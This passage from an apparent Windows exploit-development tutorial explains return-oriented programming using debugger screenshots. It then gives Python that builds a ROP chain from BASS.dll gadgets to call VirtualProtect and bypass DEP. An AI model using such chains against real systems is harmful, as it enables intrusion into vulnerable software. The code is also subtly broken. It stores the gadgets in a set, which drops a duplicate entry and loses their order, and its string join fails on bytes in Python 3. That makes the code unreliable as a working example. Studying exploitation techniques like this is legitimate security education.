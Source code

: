 ![img](images/27.png)

Stepping into the last two times causes the EAX content to be exchanged with EBX, and then the control flow returns to the placeholder address on the stack upon the next step into.

![img](images/28.png)

![img](images/29.png)

You should now have a basic understanding of how ROP operates on Windows. Let's continue implementing the stack configuration of the remaining arguments.

The following argument will be `flNewProtect`, which likewise contains null bytes (`0x40`), therefore it will be saved in `EDX` in a manner quite identical to the preceding argument.

Continuing similarly, we get an exploit:

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,

        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx

        0x10015f82, # pop eax # retn
        0xffffffc0, # value to negate
        0x10014db4, # neg eax
        0x10038a6d, # xchg eax, edx
        0x106053e5, # pop ecx, retn
        0x101082cc,

        0x1001621c, # pop edi # retn
        0x10010158, # retn

        0x10604154, # pop esi # retn
        0x10101c02, # jmp [eax]

        0x10015fe7, # pop eax # retn (BASS.dll)
        0x10109270, # ptr to &VirtualProtect() [IAT BASSWNA.dll]
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
```
